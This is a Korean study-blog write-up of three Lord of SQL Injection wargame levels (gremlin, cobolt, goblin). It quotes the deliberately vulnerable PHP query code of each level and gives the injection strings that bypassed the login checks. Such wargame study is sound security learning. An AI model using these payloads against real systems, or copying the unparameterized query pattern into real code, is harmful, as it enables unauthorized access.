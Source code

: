 ```yaml
---
layout: default
title: Day51
nav_order: 2

parent: Hacking Project - W8
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
원래 어제 LOS를 시작하려 했었는데 막상 오늘 결과가 나온다니까

어제 LOS가 손에 안잡혔다 ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ

그래도 진짜 다행히 서류는 붙어서 맘편히 공부를 할 수 있겠다.

# > Lord of Sql injection: gremlin

아주 먼 옛날 LOB를 풀던 시절에 보았던 몬스터 이름들이 나와서 기분이 싱숭생숭하다.


## 삽질
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

get방식으로 id와 pw를 입력받으니 별도의 창이 없어도 url을 통해 인자를 넘길 수 있다.

<br>

## write-up

사용자의 입력이 DB의 쿼리문에 포함되므로 아래를 전송하여 참으로 만들었다.

과정에서 주석처리를 `--`와 `#`로 시도하였으나 불가능하여 db에 사용되는 주석처리 구문을 찾아보니 `--+`가 있었다.

```
id=' or 2>1 --+
```

플래그 값을 기대했었는데잉

![image-20220607213841450](../img/image-20220607213841450.png)

<br><br><br>

-----

# > LoS: cobolt

## 삽질

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

<br>

## writeup

쿼리문의 결과 중 id가 admin이여야하므로 그냥 참이 되는 쿼리문으로 해서는 안된다.

```
id=admin' --+
```

위 쿼리문을 통해 SELECT로 admin에 관한 정보를 가져오자!


![image-20220607220400443](../img/image-20220607220400443.png)

<br><br><br>

-----

# LoS: goblin

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

id 값이 guest로 고정되어 있지만 admin으로 변경해야 성공이다. 그리하여 쿼리문의 논리 연산자 우선순위를 생각해서 `or`을 이용해보았다

```
no=2 or id='admin'
```

이에 대한 결과는 

![image-20220607221312390](img/image-20220607221312390.png)

무심코 지나쳤었는데 `'` 기호와 `"`, `/` ' 등 막혀있는 것을 확인했다.

<br>

## writeup

and연산이 or연산보다 먼저 처리된 이후에 or이 처리된다. 때문에 or을 삽입하여 구문을 보낼 경우 id=guest 그리고 +a 에 대한 결과를 거짓으로 만든 다음, 뒷 구문에서 admin을 가져올 수 있도록 쿼리를 만들면 되겠다.

![image-20220607222601245](../img/image-20220607222601245.png)

no=1일 경우에 Hello guest를 확인하였기에 admin 계정의 no만 게싱해내면 된다. no=0과 no=2를 시도했더니 no=2에서 얻을 수 있었다.

```
no=3 or no=2
```

![image-20220607222216642](../img/image-20220607222216642.png)

